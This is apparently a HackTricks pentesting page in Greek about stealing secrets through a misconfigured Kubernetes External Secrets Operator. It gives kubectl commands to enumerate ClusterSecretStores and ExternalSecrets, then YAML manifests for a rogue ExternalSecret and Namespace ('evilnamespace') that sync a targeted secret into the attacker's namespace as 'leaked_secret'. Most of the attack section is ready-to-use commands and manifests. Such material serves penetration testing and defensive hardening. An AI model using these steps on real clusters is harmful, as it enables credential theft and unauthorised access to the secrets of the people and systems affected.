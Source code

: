 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Αυτή η σελίδα παρέχει κάποιες οδηγίες σχετικά με το πώς μπορείτε να κλέψετε μυστικά από έναν κακώς ρυθμισμένο ESO ή εφαρμογή που χρησιμοποιεί ESO για να συγχρονίσει τα μυστικά της.

## Αποποίηση ευθύνης

Η τεχνική που παρουσιάζεται παρακάτω μπορεί να λειτουργήσει μόνο όταν πληρούνται ορισμένες συνθήκες. Για παράδειγμα, εξαρτάται από τις απαιτήσεις που απαιτούνται για να επιτραπεί σε ένα μυστικό να συγχρονιστεί σε ένα namespace που κατέχετε / έχετε παραβιάσει. Πρέπει να το ανακαλύψετε μόνοι σας.

## Προαπαιτούμενα

1. Ένα foothold σε ένα kubernetes / openshift cluster με δικαιώματα διαχειριστή σε ένα namespace
2. Πρόσβαση ανάγνωσης τουλάχιστον στο ExternalSecret σε επίπεδο cluster
3. Ανακαλύψτε αν υπάρχουν απαιτούμενες ετικέτες / αναφορές ή μέλη ομάδας που απαιτούνται για να επιτραπεί στο ESO να συγχρονίσει το μυστικό σας. Αν έχετε τύχη, μπορείτε ελεύθερα να κλέψετε οποιοδήποτε καθορισμένο μυστικό.

### Συλλογή πληροφοριών σχετικά με το υπάρχον ClusterSecretStore

Υποθέτοντας ότι έχετε χρήστες που έχουν αρκετά δικαιώματα για να διαβάσουν αυτό το πόρο; Ξεκινήστε πρώτα με την καταγραφή των υπαρχόντων _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Ας υποθέσουμε ότι βρήκατε ένα ClusterSecretStore με το όνομα _**mystore**_. Συνεχίστε με την καταμέτρηση του σχετικού externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Αυτή η πηγή είναι περιορισμένη σε namespace, οπότε εκτός αν γνωρίζετε ήδη ποιο namespace να αναζητήσετε, προσθέστε την επιλογή -A για να αναζητήσετε σε όλα τα namespaces._

Πρέπει να λάβετε μια λίστα με τα καθορισμένα externalsecret. Ας υποθέσουμε ότι βρήκατε ένα αντικείμενο externalsecret που ονομάζεται _**mysecret**_ και χρησιμοποιείται από το namespace _**mynamespace**_. Συγκεντρώστε λίγο περισσότερες πληροφορίες σχετικά με το είδος του μυστικού που περιέχει.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Συναρμολόγηση των κομματιών

Από εδώ μπορείτε να αποκτήσετε το όνομα ενός ή πολλών μυστικών (όπως ορίζεται στον πόρο Secret). Θα λάβετε μια έξοδο παρόμοια με:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Μέχρι τώρα έχουμε:

- Όνομα ενός ClusterSecretStore
- Όνομα ενός ExternalSecret
- Όνομα του μυστικού

Τώρα που έχουμε όλα όσα χρειαζόμαστε, μπορείτε να δημιουργήσετε ένα ExternalSecret (και τελικά να διορθώσετε/δημιουργήσετε ένα νέο Namespace για να συμμορφωθείτε με τις προϋποθέσεις που απαιτούνται για να συγχρονιστεί το νέο σας μυστικό):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Μετά από μερικά λεπτά, αν πληρούνταν οι συνθήκες συγχρονισμού, θα πρέπει να μπορείτε να δείτε το διαρρεύσαν μυστικό μέσα στο namespace σας.
```sh
kubectl get secret leaked_secret -o yaml
```
## Αναφορές

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
